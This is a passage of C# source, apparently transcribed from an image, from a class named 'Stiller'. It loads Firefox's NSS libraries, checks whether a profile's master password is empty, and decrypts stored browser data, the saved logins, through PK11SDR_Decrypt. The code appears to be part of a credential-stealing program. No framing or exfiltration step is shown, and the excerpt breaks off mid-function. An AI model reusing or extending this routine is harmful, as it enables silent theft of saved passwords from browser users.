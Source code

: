 ```csharp
                                int nssInitRez = nss3.NSS_Init(Encoding.ASCII.GetBytes(profilePath));
                                if(nssInitRez == 0)
                                {
                                    pk11slot = nss3.PK11_GetInternalKeySlot();
                                    int checkPwd = nss3.PK11_CheckUserPassword(pk11slot, "");
                                    if(checkPwd == 0) { result = true; }
                                }		
                            }
                        return result;
                    }
            
                    public static void shutdownFF()
                    {
                        nss3.PK11_FreeSlot(pk11slot);
                        int rez = nss3.NSS_Shutdown();
                        UnsafeNativeMethods.FreeLibrary(nss3dll); 
                        UnsafeNativeMethods.FreeLibrary(Stiller.mozgluedll); 
                        UnsafeNativeMethods.FreeLibrary(Stiller.msvcp140dll);
                        UnsafeNativeMethods.FreeLibrary(Stiller.vcruntime140dll);
                    }
                    
                    public struct TSECItemType 
                    {
                        public int SECItemType;
                        public IntPtr SECItemData;
                        public int SECItemLen;
                    }
        
                    public struct SlotInfo { public long l;}  
                    public static string decodeData(string profilePath, string dataEnc, byte[] unBase64)
                    {
                        string decoded = "";	
                            try
                            {
                                bool nssIsInit = nss3.NSS_IsInitialized();
                                if(!nssIsInit) { return ""; }
                                int TSECItemTypeSize = Marshal.SizeOf(typeof(TSECItemType));	
                                TSECItemType dataIn = new TSECItemType();		
                                dataIn.SECItemData = Marshal.AllocHGlobal(unBase64.Length);
                                Marshal.Copy(unBase64, 0, dataIn.SECItemData, unBase64.Length);
                                dataIn.SECItemLen= unBase64.Length;
                                dataIn.SECItemType= 0;
                                IntPtr dataOutPtr = Marshal.AllocHGlobal(TSECItemTypeSize);
                                IntPtr dataInPtr = Marshal.AllocHGlobal(TSECItemTypeSize);
                                Marshal.StructureToPtr(dataIn, dataInPtr, true);			
                                int decryptRez = nss3.PK11SDR_Decrypt(dataInPtr, dataOutPtr, null);
                                if(decryptRez != 0) { return ""; }
                                TSECItemType dataOut = (Stiller.TSECItemType)Marshal.PtrToStructure(dataOutPtr, typeof(TSECItemType));	//
                                decoded = PtrToStringSized(dataOut.SECItemData, dataOut.SECItemLen);
                                nss3.SECITEM_ZfreeItem(dataOutPtr, 0);
                                Marshal.FreeHGlobal(dataInPtr);
                            }
                            catch { return "";}  
                            return decoded;
                    }
                    private static string PtrToStringUtf8(IntPtr ptr) 
                    {
                        if (ptr == IntPtr.Zero) {return "";}
                        int len = 0;
```